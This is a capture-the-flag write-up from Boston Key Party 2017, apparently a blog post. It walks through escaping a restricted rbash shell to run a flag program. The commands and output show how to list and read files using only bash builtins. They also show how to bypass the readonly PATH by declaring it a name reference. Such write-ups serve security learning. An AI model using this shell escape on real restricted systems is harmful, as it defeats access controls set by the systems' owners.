 ```yaml
---
layout: post
title: "Boston Key Party CTf 2017: Solitary Confinement (pwn 99)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/rbash]
---
```


* **Category:** pwn
* **Points:** 99

## Write-up

We can ssh into a machine that provides us with `rbash` a restricted version of
the `bash` shell. 

```
-rbash-4.3$ pwd
/
```

If we try to `ls` or `pwd` it will fail. It turns out there are no commands
available except for the bash builtins. We can get a list of available commands
by using bash autocompletion.

```
rbash-4.3$ [tab]
!          ]]         builtin    compgen    declare    echo       eval       fc         getopts    in         logout     pwd        readonly   shopt      time       typeset    until
./         alias      caller     complete   dirs       elif       exec       fg         hash       jobs       mapfile    return     source     times      ulimit     wait
:          bg         case       compopt    disown     else       exit       fi         help       kill       popd       rbash      select     suspend    trap       umask      while
[          bind       cd         continue   do         enable     export     for        history    let        printf     read       set        test       true       unalias    {
[[         break      command    coproc     done       esac       false      function   if         local      pushd      readarray  shift      then       type       unset      }
```

Well that's not a lot... So what are we supposed to do? We don't have `ls` so
we need to find another way. Again bash autocompletion to the rescue:

```
-rbash-4.3$ *[tab]
bin    dev    flag   lib    lib64  
-rbash-4.3$ */*[tab]
bin/rbash                   flag/showFlag               lib/x86_64-linux-gnu        lib64/ld-linux-x86-64.so.2  
-rbash-4.3$ */*/*[tab]
lib/x86_64-linux-gnu/libc.so.6
```

This way we get a list of all executable programs. To get a list of files we
can use again the autocompletion for the first argument of a program.

```
-rbash-4.3$ bin/rbash[tab]
.bash_login    .bash_logout   .bash_profile  .bashrc        .profile       bin/           dev/           flag/          lib/           lib64/   
-rbash-4.3$ rbash dev/[tab]
null  zero  
-rbash-4.3$ rbash lib/x86_64-linux-gnu/lib[tab]
libc.so.6      libdl.so.2     libtinfo.so.5  
```

So the goal will be to run the `flag/showFlag` command. Unfortunately `rbash`

* does not allow us to change directories
* does not allow us to use `/` in command names

So next thing is that we tried to read the `showFlag` program. A small trick to
read files using only bash builtins:

```sh
function r() { history -c; export HISTSIZE=0; export HISTSIZE=10000; history -r $1; history; }
```

Unfortunately we didn't have permissions to read the executable. So somehow
need to find a way to bypass the restrictions of `rbash`. A obvious target is
the `PATH` environment variable. Unfortunately `rbash` sets it as readonly:

```
rbash-4.3$ unset -v PATH
rbash: unset: PATH: cannot unset: readonly variable
```

Then we noticed that we can declare the `PATH` variable for example as an
integer or array:

```
-rbash-4.3$ declare -i PATH
-rbash-4.3$ export
...
declare -irx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
```

We tried to declare it as integer with `-i`, as array `-a` and associative
array `-A` and checked whether we could somehow modify `PATH`. This didn't give
results. Then we noticed that `bash` can declare variables as "name references"

```
-rbash-4.3$ help declare
[...]
    -n	make NAME a reference to the variable named by its value
```

We then declared `PATH` as a reference and played around. We noticed that we
can suddenly write to the `PATH` variable:

```
rbash-4.3$ declare -n PATH
rbash-4.3$ export PATH=/flag
rbash-4.3$ export
declare -x /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games="/flag"
declare -x HOME="/home/ctfuser"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ctfuser"
declare -x MAIL="/var/mail/ctfuser"
declare -x OLDPWD
declare -nrx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
declare -x PWD="/"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="2"
declare -x SSH_CLIENT="129.27.229.25 40454 22"
declare -x SSH_CONNECTION="129.27.229.25 40454 10.0.0.51 22"
declare -x SSH_TTY="/dev/pts/44"
declare -x TERM="xterm-256color"
declare -x USER="ctfuser"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="618"
rbash-4.3$ echo $PATH
/flag
rbash-4.3$ showFlag
BKP{vimjail_is_down,_fortunately_we_have_rbash_to_save_the_day}
```

Bash is weird...
